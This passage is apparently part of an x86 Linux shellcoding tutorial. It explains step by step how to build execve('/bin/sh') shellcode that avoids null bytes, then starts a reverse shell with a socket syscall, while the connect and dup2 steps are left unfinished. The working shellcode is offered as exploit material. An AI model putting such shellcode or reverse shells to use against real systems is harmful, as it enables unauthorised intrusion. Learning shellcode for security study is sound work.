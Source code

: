 First we need to push values to the stack. Argv and envp need to have null pointer as well as path name must be null terminated. Since stack grovs from higher to lower memory address, first we need to push null byte and then "/bin/sh" in reverse order. Additinal remark, since "/bin/sh" takes 7 bytes, we can add another slash to have 8 bytes "//bin/sh" and avoid null bytes. 
In order to push null byte to stack, we need to zero-out EAX and push it to stack:

```
XOR EAX, EAX
PUSH EAX
```

After that, we need to push "//bin/sh"
```
PUSH 0x68732f6E
PUSH 0x69622f2F
```

Then we need to place pointer to beggining of stack to EBX. ESP is pointing to the beggining of the stack and put null pointer by pushing EAX to the stack.
```
MOV EBX, ESP
PUSH EAX
MOV EDX, ESP
```

ECX should point to the location of EBX so we can push EBX to the stack and move ESP which points to the top of the stack to EXC and finaly load execve syscall number to EAX (AL).
```
PUSH EBX
MOV ECX, ESP
MOV AL, 0x0B
INT 0x80
```

## Reverse shell code ##

So when we put it all together and add sections and entry point the result is following:

```
global _start

section .text
_start: 

        ; clear registers
        XOR EAX, EAX     ; set EAX to zero
        XOR EBX, EBX     ; set EBX to zero
        XOR ECX, ECX     ; set ECX to zero
        XOR EDX, EDX     ; set EDX to zero

        ; socket syscall
        MOV AX, 0x167    ; 0x167 is hex syscall to socket
        MOV BL, 2        ; set domain argument
        MOV CL, 1        ; set type argument
        MOV DL, 6        ; set protocol argument
        INT 0x80         ; interrupt

        MOV EDI, EAX     ; as result of socket syscall descriptor is saved in EAX
                         ; descriptor will be used with several other syscalls so
                         ; we need to save it some how for later use. One way is
                         ; to save it in EDI register which is least likely to be 
                         ; used in following syscalls
    
        ; connect syscall
        ; to be done..

        ; dup2 syscall
```